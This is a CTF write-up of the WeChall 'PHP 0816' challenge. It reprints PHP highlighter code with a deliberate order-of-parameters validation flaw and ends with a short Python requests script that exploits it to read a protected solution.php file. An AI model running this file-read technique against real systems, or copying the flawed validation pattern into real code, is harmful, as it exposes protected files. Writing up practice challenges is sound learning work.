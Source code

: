 ================================================================================================================
[wechall] PHP 0816
================================================================================================================

|

.. graphviz::

    digraph G {
        rankdir="LR";
        node[shape="point"];
        edge[arrowhead="none"]

        {
            rank="same";
            "client"[shape="plaintext"];
            "client" -> step0 -> step2 -> step4 -> step6 -> step8;
        }

        {
            rank="same";
            "server"[shape="plaintext"];
            "server" -> step1 -> step3 -> step5 -> step7 -> step9;
        }
        step0 -> step1[label="code.php?mode=hl&src=solution.php",arrowhead="normal"];
        step3 -> step2[label="@solve",arrowhead="normal"];
    }

|

Source Analysis
================================================================================================================


.. code-block:: php




    <?php
    $cwd = getcwd();
    chdir('../../');
    require_once('challenge/html_head.php');
    html_head('PHP0816 Challenge - The Highlighter');
    chdir($cwd);
     
    # globals
    global $highlights;
    $highlights = array();
     
    /**
     * Parse the GET parameters.
     */
    foreach ($_GET as $key => $value)
    {
        if ($key === 'src') {
            php0816SetSourceFile($value);
        }
        elseif ($key === 'mode') {
            php0816execute($value);
        }
        elseif ($key === 'hl') {
            php0816addHighlights($value);
        }
    }
     
     
    /**
     * Make magic quotes off !
     * (it is really defined in /include/util/Class_Common.php and will deprecate soon)
     * (also you can look on the html_head() stuff, etc. WeChall source is public domain)
     * (if you like a hint: There is a main logical error in this script, applies to all programming languages, not only php. H4\/3: |>  |-|  |_|  |\|)
     */
    /*
    final class Common
    {
            public function getGet($varname, $default=false)
            {
                    if (!isset($_GET[$varname])) {
                            return $default;
                    }
                    return 
                            get_magic_quotes_gpc() > 0 ?
                                    stripslashes($_GET[$varname]) :
                                    $_GET[$varname];
            }
    }
    */
    /**
     * Set the text file to show.
     * Sanitize Get Parameter.
     * Only allow 3 different files by whitelist at the moment.
     * TODO: broken ?!? people can see other files ! :(
     * @param $filename string - the filename
     * @return void
     */
    function php0816SetSourceFile($filename)
    {
        $filename = (string) $filename;
        
        static $whitelist = array(
            'test.php',
            'index.php',
            'code.php',
        );

        # Sanitize by whitelist
        if (!in_array($filename, $whitelist, true))
        {
            $_GET['src'] = false;
        }
    }
     
    /**
     * Add the highlighter keywords. 
     * @param $keyword array of strings - the highlighting keywords
     * @return void
     */
    function php0816addHighlights($keywords)
    {
        global $highlights;
        if (!is_array($keywords)) { return true; }
        
        foreach($keywords as $k)
        {
            $highlights[] = $k;
        }
    }
     
    /**
     * Execute action.
     * Currently only hl is known.
     * @param $mode
     * @return void
     */
    function php0816execute($mode)
    {
        switch($mode)
        {
            case 'hl': php0816Highlighter(); break;
        }
    }
     
    /**
     * Call the highlighter :)
     * sweeeeet.
     * @return void
     */
    function php0816Highlighter()
    {
        global $highlights; # <-- global highlights :D
        
        # SOMEONE SAID THIS WILL FIX IT, BUT PEOPLE CAN STILL SEE solution.php :(  #
        $filename = str_replace(array('/', '\\', '..'), '', Common::getGet('src'));#
        
        if (false === ($text = @file_get_contents($filename)))
        {
            echo '<div>File not Found: '.htmlspecialchars($filename, ENT_QUOTES).'</div>';
            return false;
        }
        
        $text = htmlspecialchars($text, ENT_QUOTES);

        foreach ($highlights as $highlight)
        {
            $stlye = 'color:#CD7F32; background-color:white; padding: 0 8px;'; 
            $text = str_replace($highlight, '<b style="'.$stlye.'">'.$highlight.'</b>', $text);
        }
        
        echo '<pre>'.$text.'</pre>';
    }
     
    $cwd = getcwd();
    chdir('../../');
    require_once('challenge/html_foot.php');
    chdir($cwd);
    ?>

|


solve
================================================================================================================

- 파라미터 조건을 만족할 경우 solution.php 파일을 읽을 수 있습니다.


.. code-blcok:: python


    import requests


    url = "http://www.wechall.net/challenge/php0816/code.php"
    
    params = {
        "mode": "hl",
        "src": "solution.php"
    }

    r = requests.get(url, params=params, verify=False)
    print r.content
